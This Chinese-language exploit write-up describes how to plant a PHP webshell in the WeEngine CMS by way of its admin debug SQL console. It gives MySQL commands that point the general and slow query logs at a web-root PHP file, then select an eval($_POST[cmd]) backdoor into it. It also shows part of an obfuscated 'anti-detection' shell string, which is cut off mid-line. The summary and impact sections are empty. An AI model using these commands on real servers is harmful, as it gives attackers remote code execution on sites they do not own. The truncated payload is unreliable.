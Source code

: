 微擎 绕过禁用函数写shell
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1.站点设置里面打开调试

![](resource/微擎后台绕过禁用函数写shell/media/rId25.png)

### 2.执行语句

select into被禁止

![](resource/微擎后台绕过禁用函数写shell/media/rId27.png)

### 3.利用日志文件写shell

    show variables like '%general%';  #查看配置

    set global general_log = on;  #开启general log模式

    set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址

    select '<?php eval($_POST[cmd]);?>'  #写入shell

![](resource/微擎后台绕过禁用函数写shell/media/rId29.png)

### 4.SQL查询免杀shell的语句

    SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$

### 补充:来自土司\@GuoKerSb的分享

在无法修改general\_log\_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow\_query\_log（慢查询日志，默认关闭）来写shell

    set global slow_query_log=1;
    set global slow_query_log_file='/var/www/html/1.php';
    select '<?php eval($_POST[cmd]);?>' or sleep(11);

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html>
